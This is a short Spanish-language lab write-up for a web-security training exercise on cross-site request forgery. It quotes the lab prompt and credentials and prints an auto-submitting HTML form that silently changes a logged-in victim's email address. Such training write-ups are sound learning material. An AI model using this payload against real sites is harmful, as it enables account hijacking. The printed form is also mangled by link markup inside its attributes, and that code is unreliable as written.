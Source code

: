 # CSRF vulnerability with no defenses

```jsx
This lab's email change functionality is vulnerable to CSRF.

To solve the lab, craft some HTML that uses a CSRF attack to change the viewer's email address and upload it to your exploit server.

You can log in to your own account using the following credentials: wiener:peter
```

Durante el proceso de cambio de correo, vemos que se ejecuta el siguiente request:

![image.png](CSRF%20vulnerability%20with%20no%20defenses%20c7188e959bc143f382b837c2841c4f4c/image.png)

El contenido del body es un formulario donde ,en caso la victima haga click, le cambiará automaticamente su correo a momemail@web-security-academy.net

```jsx
<form method="POST" action="[https://0abe003b033093b08170582d00c7009b.web-security-academy.net/my-account/change-email](https://0abe003b033093b08170582d00c7009b.web-security-academy.net/my-account/change-email)">
<input type="hidden" name="email" [value="somemail@web-security-academy.net](mailto:value=%22somemail@web-security-academy.net)">
</form>
<script>
document.forms[0].submit();
</script>
```

![image.png](CSRF%20vulnerability%20with%20no%20defenses%20c7188e959bc143f382b837c2841c4f4c/image%201.png)

![image.png](CSRF%20vulnerability%20with%20no%20defenses%20c7188e959bc143f382b837c2841c4f4c/image%202.png)